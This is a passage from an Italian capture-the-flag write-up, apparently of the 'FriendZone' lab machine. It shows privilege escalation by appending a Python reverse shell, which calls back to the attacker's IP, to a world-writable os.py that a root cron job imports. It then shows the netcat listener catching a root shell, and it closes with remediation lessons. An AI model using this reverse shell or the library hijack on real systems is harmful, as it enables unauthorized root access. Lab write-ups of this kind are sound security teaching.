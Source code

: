 La maggior parte della sceneggiatura è commentata, quindi non c'è molto da fare lì. Importa il modulo os. Forse possiamo dirottarlo. Individuiamo il modulo sulla macchina e vediamo se abbiamo i permessi di scrittura sul file.

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -la | grep os.py
-rwxrwxrwx  1 root root  26123 Jun  8 15:32 os.py
-rw-r--r--  1 root root  25917 Jun  8 15:34 os.pyc
```

Perfetto abbiamo i permessi di scrittura non ci resta cha modificare il file aggiungendo una revshell infondo al file 

```bash
import socket,subprocess,os;  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);  
s.connect(("10.10.14.42",1233));  
dup2(s.fileno(),0);  
dup2(s.fileno(),1);  
dup2(s.fileno(),2);  
p=subprocess.call(["/bin/sh","-i"]);
```

Ci mettiamo in ascolto con nc e aspettiamo che venga eseguito il cronjob

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 1233
listening on [any] 1233 ...

```

Abbiamo la nostra shell da root

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 1233
listening on [any] 1233 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.123] 57428
/bin/sh: 0: can't access tty; job control turned off
# ls 
certs
root.txt
# cat root.txt
7d60243c09e1c62d0e304a4fba40830f

```

# LESSON LEARNED

Per ottenere un punto d'appoggio iniziale sulla scatola abbiamo sfruttato sei vulnerabilità.

1. La possibilità di eseguire un trasferimento di zona che ci ha permesso di ottenere un elenco di tutti gli host per il dominio. Per evitare che si verifichi questa vulnerabilità, il server DNS deve essere configurato in modo da consentire solo i trasferimenti di zona da indirizzi IP attendibili. Vale la pena notare che anche se i trasferimenti di zona non sono consentiti, è comunque possibile enumerare l'elenco degli host tramite altri mezzi (non così semplici).
2. Abilitazione dell'accesso anonimo a una condivisione SMB che conteneva informazioni riservate. Ciò avrebbe potuto essere evitato disabilitando l'accesso anonimo/ospite sulle condivisioni SMB.
3. Se l'accesso anonimo non era abbastanza grave, una delle condivisioni SMB disponeva anche dell'accesso WRITE. Questo ci ha permesso di caricare una shell inversa. Ancora una volta, le restrizioni avrebbero dovuto essere messe in atto sulle condivisioni SMB che impediscono l'accesso.
4. Salvataggio delle credenziali in chiaro in un file sul sistema. Questo è purtroppo molto comune. Usa un gestore di password se hai difficoltà a ricordare le tue password.
5. Una vulnerabilità di inclusione di file locali (LFI) che ci ha permesso di eseguire un file sul sistema. Possibili rimedi includono il mantenimento di una lista bianca di file consentiti, la sanificazione dell'input, ecc.